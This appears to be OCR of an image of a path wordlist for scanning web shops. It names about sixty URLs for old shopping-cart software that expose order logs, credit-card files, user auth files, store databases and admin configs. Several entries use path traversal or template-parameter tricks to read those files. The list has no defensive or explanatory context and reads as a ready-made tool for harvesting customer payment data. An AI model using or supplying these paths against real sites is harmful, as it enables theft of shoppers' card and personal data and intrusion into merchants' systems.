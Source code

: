 /cgi-bin/pdg_cart/order.log
/cgi/PDG_Cart/order.log
/Admin_files/ccelog.txt
/cgi-bin/orders/mc.txt
/cgi/cart32.exe
/ecommerce/admin/admin.asp
/scripts/DCShop/auth_data/auth_user_file.txt
/Catalog/config/datasources/Expire.mdb
/ecommerce/admin/shopdbtest.asp
/mysql/mystore.mdb
/cgi-bin/%20shopper.cgi?
preadd=action&key=PROFA&template=shopping.asp
/cgi-bin/commercesql/index.cgi?page=../admin/files/order.log
/cgi-bin/Count.cgi?df=callcard.dat
/logfiles/
/shopping/shopping350.mdb
/admin/configuration.pl
/cgis/DCShop/auth_data/auth_user_file.txt
/cgis/cart32.exe
/cgi-bin/dcshop.cgi
/cgi-win/shop/auth_data/auth_user_file.txt
/shopping400.mdb
/HBill/config
/cgi-bin/shop/index.cgi?page=../admin/files/order.log
/search=action&keywords=GSD%20&template=order.log
/WebCart/orders.txt
/PDG_Cart/authorizenets.txt
/cgi-bin/AnyForm2
/~gcw/cgi-bin/Count.cgi?df=callcard.dat
/cgi-bin/PDG_Cart/order.log
/expire.mdb
/logger/
/webcart-lite/orders/import.txt
/cgi-bin/commercesql/index.cgi?page=../admin/admin_conf.pl
/cgi-bin/PDG_Cart/shopper.conf
/cgi-bin/cart32.exe
/dc/orders/orders.txt
/cgi-local/DCShop/orders/orders.txt
/shop.pl/page=shop.cfg
/cgi-local/cart32.exe
/cgi-win/pagelog.cgi
/cgi-win/shop/orders/orders.txt
/cgibin/shopper.cgi?
search=action&keywords=moron&template=order.csv
/cgi-sys/DCShop/auth_data/auth_user_file.txt
/cgi-bin/www-sql;;;
/cgi-bin/%20shopper.cgi?
preadd=action&key=PROFA&template=order.log
/scripts/orders/orders.txt
/cgi-local/shop.pl/shop.cfg
/search=action&keywords=cwtb%20&template=expire.mdb
/php/mylog.phtml
/config/datasources/shopping.mdb
/php-coolfile/action.php?action=edit&file=config.php
/cgi-bin/ezmall2000/mall2000.cgi
/cgi/DCShop/orders/orders.txt
/cgi-local/shop.pl
/cgis/DCShop/orders/orders.txt
/product/shopdbtest.asp
/ASP/cart/database/metacart.mdb
/cgi-bin/cgi-lib.pl
/cgi-bin/mailview.cgi?cmd=view&fldrname=inbox&select=1&html
/search=action&keywords=cwtb%20&template=order.log
/mysql/expire.mdb